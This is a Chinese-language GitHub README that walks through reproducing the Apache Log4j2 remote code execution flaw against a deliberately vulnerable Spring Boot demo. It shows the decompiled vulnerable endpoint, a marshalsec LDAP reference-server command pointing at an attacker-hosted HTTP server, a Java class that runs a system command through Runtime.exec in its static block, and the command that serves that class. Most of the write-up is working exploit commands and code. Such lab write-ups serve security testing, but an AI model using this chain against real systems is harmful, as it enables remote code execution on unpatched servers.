 ## [Apache Log4j-v2.14-1 RCE](https://github.com/Bin4xin/bigger-than-bigger/tree/master/CoVV/ApacheLog4j)

#### 环境准备

- 标题仓库中demo.jar(更接近实际渗透环境)
- 或者[<del>idea代码直接调试</del>](https://github.com/tangxiaofeng7/apache-log4j-poc/)
    - *Tips:2021-12-21更新*：
    - 仓库作者已删除，我这里仓库重新上传了一份，[apache-log4j-poc](https://github.com/Bin4xin/bigger-than-bigger/tree/master/CoVV/ApacheLog4j/apache-log4j-poc)

```
[apache-log4j-poc]-git:(main)>git remote -v
origin	https://github.com/tangxiaofeng7/apache-log4j-poc.git (fetch)
origin	https://github.com/tangxiaofeng7/apache-log4j-poc.git (push)
```

> 值得注意的是：@apache-log4j-poc仓库中的截图poc代码为缺省`127.0.0.1`，我本地并未成功，需调整为网卡监听局域网地址如`192.168.x.x`

- JDK版本11以下，我的测试版本如下：

```bash
>java -version
java version "1.8.0_181"
Java(TM) SE Runtime Environment (build 1.8.0_181-b13)
Java HotSpot(TM) 64-Bit Server VM (build 25.181-b13, mixed mode)
```

## 分析环境

把demo.jar拉到jd-gui中反编译：

`com.example.log4j2_rce.Log4j2RceApplication`

```java
  @PostMapping({"/hello"})
public String hello(String payload) {
        System.setProperty("com.sun.jndi.ldap.object.trustURLCodebase", "true");
        System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase", "true");
        logger.error("{}", payload);
        logger.info("{}", payload);
        logger.info(payload);
        logger.error(payload);
        return "ok";
        }
```

访问路由为hello，post`payload`参数；

## 尝试

```bash
$ java -jar demo.jar
  .   ____          _            __ _ _
 /\\ / ___'_ __ _ _(_)_ __  __ _ \ \ \ \
( ( )\___ | '_ | '_| | '_ \/ _` | \ \ \ \
 \\/  ___)| |_)| | | | | || (_| |  ) ) ) )
  '  |____| .__|_| |_|_| |_\__, | / / / /
 =========|_|==============|___/=/_/_/_/
 :: Spring Boot ::        (v2.1.3.RELEASE)
 ···
```

```bash
# 启LDAP服务：
$ java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://192.168.3.64/#dnslog"

# 启http：
$ cat dnslog.java
import java.lang.Runtime;
import java.lang.Process;

public class dnslog {
	static {

		try{
	 	Runtime rt = Runtime.getRuntime();
	 	String[] commands = {"open","/System/Applications/Calculator.app"};
	 	Process pc = rt.exec(commands);
	 	pc.waitFor();
	 	}catch (Exception e) {
	 	//no
		}

	}
}
$ javac dnslog.java
$ python3 -m http.server 80
Serving HTTP on :: port 80 (http://[::]:80/) ...
```

![](../../assets/log4j_poc_success.png)

## 限制

- 目前暂时只知道jdk高版本会报错：`[main] ERROR log4j - Reference Class Name: foo`

这里本人没有测试，可以移步自行分析版本限制[bilibili @GCC酱_0ff1c1a1 Log4j2 漏洞风险演示与个人看法](https://www.bilibili.com/video/BV15Q4y1e7jZ)，也欢迎贡献本仓库。

- [更多限制请移步博客](https://bin4xin.sentrylab.cn/about/Apache-Log4j-RCE-WalkThrough/)

## 代码及参考

- [【安全通报】Apache Log4j2 远程代码执行漏洞](https://nosec.org/home/detail/4917.html)
- [bilibili @GCC酱_0ff1c1a1 Log4j2 漏洞风险演示与个人看法](https://www.bilibili.com/video/BV15Q4y1e7jZ)